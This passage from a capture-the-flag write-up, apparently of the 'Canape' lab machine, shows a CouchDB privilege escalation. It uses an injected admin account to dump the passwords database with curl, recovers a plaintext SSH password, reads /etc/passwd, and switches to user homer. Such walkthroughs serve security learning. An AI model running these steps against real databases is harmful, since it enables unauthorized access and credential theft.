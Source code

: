Yea, that worked, we added an admin user with name and password pwn .

```
www-data@canape:/$ curl http://pwn:pwn@localhost:5984/_users/_all_docs
{"total_rows":3,"offset":0,"rows":[
{"id":"_design/_auth","key":"_design/_auth","value":{"rev":"1-75efcce1f083316d622d389f3f9813f7"}},
{"id":"org.couchdb.user:guest","key":"org.couchdb.user:guest","value":{"rev":"1-76778427e593a7e4a68832b308ed4a5e"}},
{"id":"org.couchdb.user:pwn","key":"org.couchdb.user:pwn","value":{"rev":"1-2189e39effa7061778a422d5e9318d21"}}
]}
```
Lets have a look at **passwords** database:

```
www-data@canape:/$ curl http://pwn:pwn@localhost:5984/passwords/_all_docs
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
]}
```

At this point, I spent my time to understand that values. And I spent to much time to figure it out.<br>
Searched on google how to read those.

Than I understand, I didn’t know that base64 values are the actual **id** values like sql table id’s.

> Tip: http://docs.couchdb.org/en/stable/api/index.html

```
www-data@canape:/$ curl http://pwn:pwn@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}
```

We got a password.<br>
Lets cat the /etc/passwd for enumerating **users** on system.

```
...
homer:x:1000:1000:homer,,,:/home/homer:/bin/bash
...
```

Maybe that password we found belongs to **homer ?**

```
www-data@canape:/$ su homer
Password:
homer@canape:/$
```
